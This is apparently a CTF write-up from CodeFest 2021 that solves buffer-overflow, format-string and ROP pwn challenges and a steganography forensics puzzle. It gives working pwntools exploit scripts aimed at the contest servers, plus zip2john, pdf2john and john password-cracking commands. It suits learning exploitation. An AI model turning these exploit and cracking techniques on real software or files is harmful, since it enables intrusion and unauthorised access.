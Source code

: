 # WriteUp for CodeFest

These will include the challenges I was able to do in the last 2 hours of the 24 hour ctf @ CodeFest 2021. I was able to solve the entire pwn category which was easy and beginner friendly and one forensics challenge which was very practical and straight-forward.

# Pwn Category

## C is Hard

#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/C_is_hard)

This was the first challenge which has stack overflow vulnerability and the goal was to overflow the buf and call a hidden function called print_flag.

Let's start by analyzing the function in radare2.

```
r2 -R'stdin=input.txt' ./source_fixed.
```

![](https://i.imgur.com/4FEEWxS.png)

So our target is to go to the `sym.print_flag` as it will get us the flag. So how we can jump to the function. Lets start by analyzing the `sym.vuln` function.

![](https://i.imgur.com/VcWQQvr.png)

The function seems simple: we overflow the buffer s (i.e rbp-0x20 \[check top of the function\]). So after we give 0x20 bytes we will get to rbp and then rip. Thus our exploit will look like this:-

```
from pwn import *

padding = b'i'*0x20
flag = p64(0x4011b6)

payload = padding
payload += b'A'*0x8
payload += flag

#p = process('./source_fixed')
p = remote('chall.codefest.tech',8780)
p.recvline()
p.sendline(payload)
p.interactive()
```

and we get our first flag as:-
codefest{overflowing_stacks_for_flags_and_fun_768999766}

## Take Me to Cafe
#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/take_me_to_cafe)


This challenge is format string vulnerability in which we will have to overwrite a variable to value 0xcafe in order to get the flag and then finally go to the pawry(hidden joke in challenge :P).

start by analyzing the function:-

```bash
r2 -R'stdin=input.txt' ./format
```

![](https://i.imgur.com/hO4whEy.png)

![](https://i.imgur.com/nmmVc7b.png)

We see that the function sym.print_flag is called if the `cmp eax, 0xcafe` is passed. So all we need to do is move the value 0xcafe to ebx+0x44 so it is moved to eax and then we pass the cmp and get the flag.

The vulnerability as hinted by the binary name and the confirmed from the source code is format string. With this we can write any value to any address with the help of %n parameter.

%n basically write the number of bytes printed to screen so far to a given address.

Let's start by determining where our first argument lands on the stack. Send the input

```bash
aaaabbbbcccc%lx %lx...
```
repeat the %lx until you see the aaaa in hex.

![](https://i.imgur.com/wj92pSQ.png)

we see that our aaaa lands as the 4th argument on the stack. Confirm it by testing it again.

![](https://i.imgur.com/M36tQuF.png)

Now all we need to overwrite the cmp to pass it and get the flag shown we found earlier. Thus the exploit will look like this.

The exploit basically writes a number to a given address that is 0x804c044. It takes some hit and trial to find the correct value to write but start with int(0xcafe) and adjust accordingly.

```python
from pwn import *

padding = b'i'*88

addr = p32(0x804c044)

payload = addr + b"%51962d%4$hn"

#p = process('./format')
p = remote('chall.codefest.tech',8744)
print(p.recvuntil('will go\n'))
p.sendline(payload)
p.interactive()
```
And we get the flag along with the meme reference.
![](https://i.imgur.com/DHieiRo.png)


## Welcome to the Pawry

Welcome the pawry is a simple rop challenge. We get a buffer overflow, string in binary "/bin/cat flag.txt" and system call and we need to create a rop chain to get the flag.

The challenge is straightforward so the exploit should be self explanatory.

```python
from pwn import *


# 24 + ebp + eip

padding = b'i'*28

binCat = p32(0x804c028)
system_call = p32(0x8049214)


payload = padding + system_call + binCat

p = process('./pawry')
#p = remote('chall.codefest.tech',8686)
p.recvuntil('.')
p.sendline(payload)
p.interactive()
```

# Forensics

## Anime is Love <3
#### [Download files from here](https://github.com/not-duckie/RandomPwn/tree/master/ctf21/animeIsLove)

This was a good forensics challenge that required a little bit of manual work. I liked it alot. The challenge starts with the given prompt.

![](https://i.imgur.com/GjtltNN.png)

So start by analyzing the hexdump of the image and find that there is flag.txt at the end of the image.

![](https://i.imgur.com/nFL08k5.png)

So let's extract it. The jpg files usually end with FFD9 byte. We extract everything after that in file called foo.

```
dd if=anime.jpg of=tmp bs=1 skip=362196
```

Here skip the address of the line where we found the ending byte in int (0x586D4).

### Note

```bash
i am using ghex and my hex editor.
```

![](https://i.imgur.com/TATw0ud.png)

After cleaning up the file by removing extra bytes that may have been copied and fixing the magic byte of the zip file (i.e 50 4B). And we have a clean zip file.

When we try to open it we find it has a password protection. So convert it to hash and brute force it with john.

```bash
zip2john tmp.zip > hash
john --wordlist=~/rockyou.txt hash
```

We find the password as dragonballz. But the picture was of naruto ? wtf.

The flag.txt is a pdf file which when opened with the viewer opens weird. So lets repair it with foremost and try it again.

```bash
foremost flag.txt
```
Now when it opens it, it asks for a password.

```bash
pdf2john 00000.pdf > hash
john --wordlist=~/rockyou.txt hash
```

The password is naruto and we get the flag.

codefest{y0u_4r3_g00d_4t_m4g1c_byt35}
